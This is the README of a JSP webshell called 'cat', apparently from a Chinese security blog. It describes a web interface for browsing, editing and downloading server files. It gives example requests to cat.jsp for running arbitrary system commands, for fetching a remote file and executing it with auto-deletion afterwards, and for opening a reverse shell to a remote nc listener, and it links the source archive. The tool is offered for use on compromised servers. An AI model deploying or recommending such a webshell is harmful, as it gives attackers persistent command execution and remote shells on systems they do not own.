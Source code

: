 #cat小工具  
Author: p2j  

我觉得这都算不上什么webshell了，写这个只是为了简化一些操作。cat提供了简单的的文件遍历、管理、命令执行、反弹shell、文件下载、自动下载并执行这么几个小功能。

web界面只是一个简单的文件目录浏览功能和文件下载功能：  

![img](1.jpg)  

点击文件名可以编辑对应的文件，新建文件也可以在这里进行File地址写上需要编辑的文件绝对路径就行了：  

![img](2.jpg)   

执行系统命令会比较麻烦，因为需要自己写参数了：  
![img](3.jpg)  

    请求：http://localhost:8080/Struts2/cat.jsp?action=exec&cmd=ifconfig  

参数:  

    action=exec  

    cmd=需要执行的命令。  

文件下载分为远程文件下载和本地文件下载。本地文件下载直接点击下载即可从服务器上下载对应的文件。而远程文件下载的则需要继续以参数的方式请求：  

![img](4.jpg) 

    请求：http://localhost:8080/Struts2/cat.jsp?action=downloadL&url=http://www.baidu.com/img/bdlogo.png&path=bdlogo.png  

参数：  

    action=downloadL

    url=需要下载的文件的URL地址

    path=文件保存的绝对路径，注意如果只写文件名会下载到当前运行环境的目录下(比如tomcat会下载到tomcat的bin目录)。

本地文件下载如遇到目录则自动打包成zip。  

自动下载并执行，这个功能实际上是为了简化操作。下载某个文件然后可以用命令去调用它。这个命令如果能正常执行完是会有回显的。并且下载的文件会在命令执行结束后自动删除掉。  

![img](5.jpg)   

    请求：http://localhost:8080/Struts2/cat.jsp?action=auto&url=http://www.baidu.com/img/bdlogo.png&fileName=bdlogo.png&cmd=cat%20bdlogo.png

参数：  

    action=auto

    url=需要下载的文件的URL地址

    fileName=文件名

    cmd=需要执行的系统命令

反弹shell，这里实现的仅仅是一个系统执行命令的入口反弹，而非反弹一个具体的文件流。即给远程监听的nc反弹一个能够执行命令的入口。  

![img](6.jpg)   

    请求：http://localhost:8080/Struts2/cat.jsp?action=shell&host=p2j.cn&port=9527

参数：  

    action=shell

    host=远程IP

    port=远程监听的端口


源码下载：[Cat.zip](http://pan.baidu.com/s/1hqmWGFM)  
[url](http://p2j.cn/?p=1533)